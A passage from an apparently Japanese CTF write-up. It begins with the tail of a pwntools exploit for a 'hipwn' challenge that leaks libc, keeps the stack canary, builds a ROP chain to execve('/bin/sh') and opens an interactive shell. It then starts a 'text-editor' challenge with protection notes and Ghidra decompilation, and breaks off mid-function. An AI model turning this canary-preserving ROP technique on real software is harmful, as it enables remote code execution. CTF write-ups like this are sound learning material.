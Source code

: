 ```python
    io.info(f"got libc_start_main_ret: {hex(main_ret)}")

    libc_base = main_ret - (current["main_ret"] - min(current["libc.so.6_r--p"]))
    io.success(f"got libc base: {hex(libc_base)}")

    send_num(io, magic)  # restart
    send_num(io, buf_length + 0x80)
    payload = b"P" * buf_length
    payload += pack(canary)
    payload += pack(
        current["libc.so.6_rw-p"][0]
        - min(current["libc.so.6_r--p"])
        + libc_base
        + 0x100
    )  # rbp

    libc = ELF(
        "/home/iwancof/WorkSpace/CTF/datas/glibc-all-in-one/libs/2.35-0ubuntu3.3_amd64/libc.so.6"
    )
    libc.address = libc_base

    rop = ROP(libc)
    rop.execve(next(libc.search(b"/bin/sh\x00")), 0, 0)

    payload += rop.chain()

    send_to_read_primitive(io, payload)
    send_num(io, 0)  # exit

    io.success("got true world")
    io.sendline("echo 'I pwned you!'")

    io.interactive()
```

# text-editor

hipwn と同じように、バイナリと Dockerfile が配られる。

- glibc: 2.35
- セキュリティ機能: 全部有効
- strip: なし
- ソースコード: なし

ghidra

```c
void setup(void) {
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  return;
}

void print_menu(void) {
  puts("Menu:");
  puts("1. edit text");
  puts("2. save text");
  puts("3. exit");
  printf("> ");
  return;
}

void edit_text(void) {
```
